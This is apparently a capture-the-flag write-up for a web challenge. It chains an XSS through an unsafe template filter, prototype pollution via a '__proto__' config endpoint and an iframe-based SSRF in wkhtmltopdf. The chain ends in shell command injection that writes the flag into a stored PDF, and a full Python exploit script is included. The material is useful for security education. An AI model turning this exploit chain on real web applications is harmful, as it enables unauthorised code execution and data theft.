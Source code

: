 ```yaml
---
created: 2025-03-02T05:54
updated: 2025-03-18T02:30
points: 600
solves: 6
---
```


`| safe` bypasses safety checks, this is definitely a XSS attack vector.

```html
<div class="box-left">
	{{ userAvatarUrl | renderUrlAsAvatar | safe }}
</div>
```

After looking a bit, my `userAvatarUrl` has to pass the url check.

```js
function isValidHttpUrl(url) {
    if (typeof url !== "string") return false;
    try {
        const parsedUrl = new URL(url);
        return parsedUrl.protocol === "http:" || parsedUrl.protocol === "https:";
    } catch (e) {
        return false;
    }
}
```

Well we can simply bypass it with this.

```
http://qwd.w?<img onerror='alert(1)' src=0>
```

But wait, the image itself is again generated from somewhere else.

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, {maxRedirects: 2})).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Some minor changes should make it still work.

```
http://github.com/ octo-kumo.png?<img onerror='alert(1)' src=0> .png
```

Oh wait! There's another filter!

```js
function isLikelyValidGitHubHandle(username) {
    if (typeof username !== "string") return false;
    const regex = /^[a-zA-Z0-9]([a-zA-Z0-9-]{0,37}[a-zA-Z0-9])?$/;
    return regex.test(username);
}
```
## prototype pollution
Wait... there's prototype pollution?

```js
app.post('/set-config', [
	body('config')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('key')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('val')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
],
async (req, res) => {
	const errors = validationResult(req);
	if (!errors.isEmpty()) {
		return res.status(400).json({errors: errors.array()});
	}
	const cfg = req.body.config;
	if (cfg in config) {
		const key = req.body.key;
		const val = req.body.val;
		config[cfg][key] = val;
		res.json({message: `Mode set to ${val}`});
	} else {
		return res.status(400).json({errors: [`Invalid configuration ${val}`]});
	}
});
```

Wait... prototype pollution can bypass the hard regex filters!

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, { maxRedirects: 2 })).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Now we just need a payload here.

```js
function renderUrlAsAvatar(url) {
    const imgUrl = isValidHttpUrl(url) ? url : `https://i.pravatar.cc/400?u=${Math.floor(Math.random() * 1000) + 1}`;
    return `<div style="border-radius: 50%;overflow: hidden;width: 100%;"><img src="${imgUrl}" style="width: 100%; height: 100%; object-fit: cover;"/></div>`
}
```

This should work pretty well.

```
"http://w.w?\" onerror=\"alert(1)"
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1740915439/2025/03/4398a7878da7e227f57d0b8eca92489d.png)

It worked!

So we have XSS, now what?

## PDF SSRF

Turns out **wkhtmltopdf:0.12.6** has a 9.8 vuln [NVD - CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583).

I couldn't find PoCs on it, but I think the gist of it is to use iframes.

If we get a SSRF from `/make-card-pdf` back onto `/make-card-pdf` but with malicious inputs, we have free shell.

There is no validation on `/make-card-pdf`.

A naïve solution is complete.

```python
print(prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://127.0.0.1:1984/make-card-pdf?data=\'`ls`\' ce79f83f719f29dab8dd7818048fc99a"></iframe>'))
```

But it doesn't work.

```
Error: Failed to load http://127.0.0.1:1984/make-card-pdf?data='%60ls%60' ce79f83f719f29dab8dd7818048fc99a, with network status code 204 and http status code 401 - Host requires authentication
```

Turns out I had to escape the space.

But after a lot of experimenting I couldn't get the output of the command to display in the pdf.

So I decided to just overwrite (or not) a previous PDF with the output of `/usr/bin/echo-flag`

```python
prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```

```flag
ATHACKCTF{Spacele$$_$$urfing_On_Polluted_$hells}
```


```python
import re
import requests

target = 'http://localhost:14569/'

# target = 'http://localhost:2025/'


def prototype(key, val):
    return requests.post(target + '/set-config', data={
        'config': '__proto__',
        'key': key,
        'val': val
    }).text


def makeCard():
    text = requests.post(target + '/create-card', data={
        'firstName': 'yun',
        'lastName': 'yun',
        'email': 'yun@yun.ng',
        'github': 'octo-kumo',
        'company': 'Yun'
    }).text
    return re.search(r'cardId" value="([0-9a-f]+)', text).group(1)


def downloadCard(cardId):
    return requests.get(target + '/download-card', params={
        "cardId": cardId,
        "email": "yun@yun.ng"
    }).content


prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```